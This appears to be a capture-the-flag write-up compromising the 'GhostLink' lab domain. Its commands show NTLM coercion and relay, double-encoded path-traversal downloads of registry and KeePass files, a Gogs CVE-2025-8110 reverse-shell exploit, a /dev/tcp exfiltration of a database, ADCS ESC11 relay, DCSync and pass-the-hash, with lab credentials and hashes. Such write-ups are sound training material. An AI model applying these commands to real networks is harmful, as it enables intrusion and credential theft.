GhostLink Machine
Full Active Directory compromise through MQTT enumeration, NTLM relay, path traversal, Gogs RCE (CVE-2025-8110), and ADCS ESC11 exploitation
About Target
Target:
10.129.10.116Domain:
ghostlink.htbDomain Controller:
dc01.ghostlink.htbServer Time:
2026-07-30 08:57:47Z
Ghostlink is a Hard difficulty Windows machine featuring an Active Directory domain controller and a web server. Enumeration reveals a critical MQTT service used for node tracking, which exposes two internal hosts: a secure file sharing app and a Gogs code host.
The attacker modifies the MQTT health check to trigger NTLM authentication,
relaying credentials to authenticate as the svc_canary service account. Using this
authentication, the attacker exploits a double URL-encoded path traversal vulnerability to
exfiltrate the service account's ntuser.dat file.
Analysis of the registry hive reveals a recent document for db.zip, containing
KeePass credentials for the Gogs application. These credentials are then
leveraged to exploit an RCE vulnerability CVE-2025-8110 in Gogs to obtain a foothold.
Once on the system, the attacker cracks a Gogs hash to log in as the local user
nvirelli. Finally, the ESC11 vulnerability in ADCS allows the
attacker to request a Domain Controller certificate and compromise the domain.
Attack Phases
- Phase 1 Reconnaissance - Nmap scan, service identification, host/domain discovery
- Phase 2 Enumeration - MQTT analysis, web application enumeration, version identification
- Phase 3 Initial Access - NTLM relay, path traversal, credential extraction
- Phase 4 Foothold - Gogs CVE-2025-8110 exploitation, reverse shell
- Phase 5 Lateral Movement - Gogs DB cracking, user switching, user flag
- Phase 6 Privilege Escalation - Ligolo-ng tunneling, ADCS ESC11, DCSync, domain compromise
Phase 1: Reconnaissance
Initial Scan
I first performed an initial active reconnaissance using nmap scanning on the target:
$ nmap -vv -Pn -sV -sC -p- 10.129.1.70The scan identified a Windows host exposing several services commonly associated with an Active Directory environment.
| Port | Service | Version |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS 10.0 |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | MSRPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft NetBIOS |
| 389 | LDAP | Active Directory LDAP |
| 445 | SMB | Microsoft-DS |
| 464 | Kerberos | Password change |
| 593 | RPC over HTTP | Microsoft |
| 636 | LDAPS | Active Directory LDAP over SSL |
| 1883 | MQTT | MQTT |
| 2179 | VM-RDP | Microsoft virtualization-related service |
| 3268 | Global Catalog | LDAP |
| 3269 | Global Catalog | LDAPS |
| 5985 | WinRM | Microsoft HTTPAPI |
| 9389 | .NET Message Framing | Microsoft |
| 49664–50962 | MSRPC | Dynamic RPC ports |
The presence of Kerberos (88), LDAP/LDAPS (389/636), Global Catalog (3268/3269), SMB (445), and DNS (53) strongly indicates that the target is an Active Directory Domain Controller.
Host:
DC01Domain:
ghostlink.htb
The web server on port 80 exposes an IIS 10.0 instance with the title "Ghost Protocol Zero".
Another interesting finding is the MQTT service on port
1883.
Nmap was able to retrieve $SYS broker information without authentication,
with the output showing clients connecting with username: "(null)".This may indicate that the MQTT broker permits unauthenticated connections and is therefore worth investigating further.
SMB signing is reported as enabled and required, which makes common SMB relay attacks less immediately promising.
The next logical phase is enumeration, rather than immediately attempting exploitation. I will investigate DNS, SMB, LDAP/AD, HTTP, and MQTT, with particular attention to information disclosure and possible unauthenticated access.
Phase 2: Enumeration
During the Reconnaissance phase, I noticed that the target exposed several services commonly
associated with a Windows Active Directory environment, including Kerberos on port 88,
LDAP on ports 389/636, SMB on port 445, Global Catalog LDAP on ports
3268/3269, and WinRM on port 5985.
More importantly, I noticed that the target exposed the MQTT protocol on port
1883. MQTT (Message Queuing Telemetry Transport) is a lightweight messaging
protocol commonly used in IoT (Internet of Things) environments.
MQTT Enumeration
I installed and executed mqttui to enumerate the MQTT broker:
$ sudo apt update && sudo apt upgrade -y && sudo apt install cargo
$ cargo install --git https://github.com/EdJoPaTo/mqttui.git
$ mqttui -b mqtt://ghostlink.htb


$ mqttui -b mqtt://ghostlink.htb -r

By enumerating the available MQTT topics, I found that the broker was tracking nodes within the internal infrastructure. Among the information exposed by these topics were references to internal hosts such as:
gpz-op26-secure.ghostlink.htbgpz-op26-toolkits.ghostlink.htb
I added these to my /etc/hosts file and navigated to the discovered hosts. The
first host presented a secure file sharing application, while the second hosted
a Gogs instance - a self-hosted Git service.


Gogs Version Identification
Through analysis of the Gogs instance at http://gpz-op26-toolkits.ghostlink.htb,
I located a commit hash within the JavaScript source:
5084b4a9b77a506f5e287e82e945e1c6882b827a

I navigated to the corresponding commit in the official Gogs repository and identified the
version as 0.13.3. Searching for vulnerabilities in this version
yielded CVE-2025-8110, an authenticated remote code execution vulnerability.


Authenticated Remote Code Execution vulnerability in Gogs version
0.13.3.References:
CVE Record · NIST NVD · Exploit PoC · Wiz Research
Phase 3: Initial Access
Health-Check URL Manipulation
Since I did not have valid credentials for the Gogs application yet, I temporarily put the Gogs RCE aside and returned to the MQTT service for further enumeration.
I inspected the secureshare/healthcheck topic and found that the health-check
contained the following URL:
gpz-op26-secure.ghostlink.htb/healthcheck
I noticed that the URL field was user-controllable through MQTT. I then modified the health-check URL to point to my Responder listener:
{
"timestamp": "2026-17-08-15:56:39",
"node": "node-6",
"telemetry": {
"healthy": true,
"url": "http://10.10.14.149",
"lastCheckSecAgo": 3,
"responseCode": "200",
"ip": "172.16.20.10"
}
}

I published the modified message back to the same MQTT topic while running Responder:
After the health-check was triggered, I received an HTTP connection from the internal host. The service attempted to authenticate to my listener using NTLM, revealing the account:
ghostlink\svc_canary


This confirmed that I could coerce the svc_canary service account into performing
an NTLM authentication request to a host under my control.
NTLM Relay
Since the svc_canary NTLMv2 hash was not crackable with the
available wordlist, I decided to use an NTLM relay instead.
I configured ntlmrelayx to listen on port 7373, relay the authentication to
gpz-op26-secure.ghostlink.htb, and expose the successful relay through a
SOCKS proxy:




ntlmrelayx.py -t http://gpz-op26-secure.ghostlink.htb -socks -smb2support
The GHOSTLINK/SVC_CANARY connection to gpz-op26-secure.ghostlink.htb
was listed, allowing me to access the application through the authenticated relay session.
Path Traversal Vulnerability
With authenticated access, I discovered a double URL-encoded path traversal
vulnerability in the /api/download/ endpoint.
Test Request:
/api/download/C:%252fWindows%252fSystem32%252fdrivers%252fetc%252fhostsExtracting NTUSER.DAT
I downloaded the service account's registry hive:
$ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fNTUSER.DAT --output NTUSER.DAT
Using ntuser_parser.py, I discovered a recent document reference to
db.zip:
$ python3 ntuser_parser.py --hive NTUSER.DATFinding db.zip Location
The .lnk file revealed the complete path:
$ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fAppData%252fRoaming%252fMicrosoft%252fWindows%252fRecent%252fdb.zip.lnk --output db.zip.lnkLocal base path: C:\Users\svc_canary\Documents\Operations\Management\db.zip
Retrieving and Opening db.zip
$ proxychains4 -q curl http://gpz-op26-secure.ghostlink.htb/api/download/C:%252fUsers%252fsvc_canary%252fDocuments%252fOperations%252fManagement%252fdb.zip --output db.zip
$ unzip db.zipdb.kdbx - KeePass database.key.keyx - Key file
Opening with KeePassXC revealed credentials:
vroth:mOo03jpsqx8JQYMBwvFP
Phase 4: Foothold
Gogs CVE-2025-8110 Exploitation
With vroth credentials, I exploited the authenticated RCE vulnerability in Gogs:
$ python3 cve-2025-8110.py --url http://gpz-op26-toolkits.ghostlink.htb -lh 10.10.14.149 -lp 9001 -U vroth -P mOo03jpsqx8JQYMBwvFPExploit Chain
- Authenticated as
vroth - Created malicious repository
- Pushed symlink to
.git/config - Overwrote config via API
- Injected reverse shell
Received shell as
git user
Phase 5: Lateral Movement
Cracking Gogs Database
I exfiltrated the Gogs database:
$ cat /opt/gogs/data/gogs.db > /dev/tcp/10.10.14.149/9999Extracted and cracked hashes:
$ sqlite3 gogs.db "SELECT name,passwd,salt FROM user;" | python3 gitea2john.py > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashesnvirelli:u47YUclrDiwWxBheaSzI
Switching Users
$ su nvirelli

Phase 6: Privilege Escalation
ADCS ESC11 Exploitation
Certificate Authority Enumeration
$ certipy find -u nvirelli -p u47YUclrDiwWxBheaSzI -dc-ip 10.129.238.246 -stdout -vulnerableESC11: Encryption not enforced for ICPR requests
Coercing Authentication
$ coercer coerce -u nvirelli -p u47YUclrDiwWxBheaSzI -d ghostlink.htb --dc-ip 10.129.238.246 -t 10.129.238.246 -l 10.10.14.149NTLM Relay to Certificate Service
$ ntlmrelayx.py -t rpc://172.16.20.10 -rpc-mode ICPR -icpr-ca-name ghostlink-GPZ-OP26-SECURE-CA --template DomainControllerObtained Domain Controller certificate
DC01.pfx
Compromising Domain Controller
Extract NThash
$ certipy auth -pfx DC01.pfx -dc-ip 10.129.238.246 -username DC01$ -domain ghostlink.htbf09e86e9b9c7e94f2fabaa9e31757e50
DCSync Attack
$ secretsdump.py ghostlink.htb/DC01$@dc01.ghostlink.htb -hashes :f09e86e9b9c7e94f2fabaa9e31757e50 -just-dc-user Administrator8190e067f478002ddd63eb209b016696
Get Administrator Shell
$ python3 winrmexec.py ghostlink.htb/Administrator@DC01.ghostlink.htb -hashes :8190e067f478002ddd63eb209b016696
Full domain compromise achieved
Attack Chain Summary
| Phase | Technique | Result |
|---|---|---|
| 1. Recon | Nmap scan | Discovered MQTT service on port 1883 |
| 2. Enumeration | MQTT enumeration | Exposed internal hosts and health-check topics |
| 3. NTLM Relay | Health-check manipulation | Captured svc_canary NTLM |
| 4. Auth Bypass | NTLM relay to secure share | Authenticated access to file sharing |
| 5. Path Traversal | Double-encoded path traversal | Exfiltrated NTUSER.DAT |
| 6. Credential Extraction | Registry hive analysis | Found db.zip via .lnk file |
| 7. KeePass | db.kdbx + .key.keyx |
Extracted vroth credentials |
| 8. Initial Access | Gogs CVE-2025-8110 RCE | Shell as git user |
| 9. Lateral Movement | Gogs DB cracking | Found nvirelli password |
| 10. Privilege Escalation | ADCS ESC11 | Obtained DC01 certificate |
| 11. Domain Compromise | DCSync attack | Administrator NThash |